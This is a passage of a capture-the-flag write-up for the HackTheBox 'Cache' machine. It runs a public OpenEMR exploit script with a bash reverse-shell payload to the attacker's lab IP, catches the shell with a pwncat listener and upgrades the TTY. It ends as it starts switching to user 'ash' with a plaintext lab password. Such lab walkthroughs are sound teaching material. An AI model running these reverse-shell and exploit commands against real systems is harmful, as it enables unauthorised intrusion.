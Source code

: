 ## Shell as www-data

Going through exploit, we understand it expects username, password and the command to be executed as inputs.

```shell
cfx:  ~/Documents/htb/cache
→ python2 45161.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >&/dev/tcp/10.10.14.10/8020 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__)

   ={   P R O J E C T    I N S E C U R I T Y   }=

         Twitter : @Insecurity
         Site    : insecurity.sh

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload

```

Getting a call back on `pwncat` listener:

```shell
cfx:  ~/Documents/htb/cache
→ pwncat -l 8020 -vv
INFO: Listening on :::8020 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8020 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.188:46344 (family 2/IPv4, TCP)
bash: cannot set terminal process group (1653): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
whoami
www-data
www-data@cache:/var/www/hms.htb/public_html/interface/main$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## Elevating Priv: www-data -> ash

`user.txt` is located inside folder user `ash`:

```shell
www-data@cache:/home/ash$ cat user.txt
cat: user.txt: Permission denied
```
Initially we discovered hardcoded credentials for user ash during HTTP enumeration, we can `su` to ash using `ash:H@v3_fun` and grab the user flag:

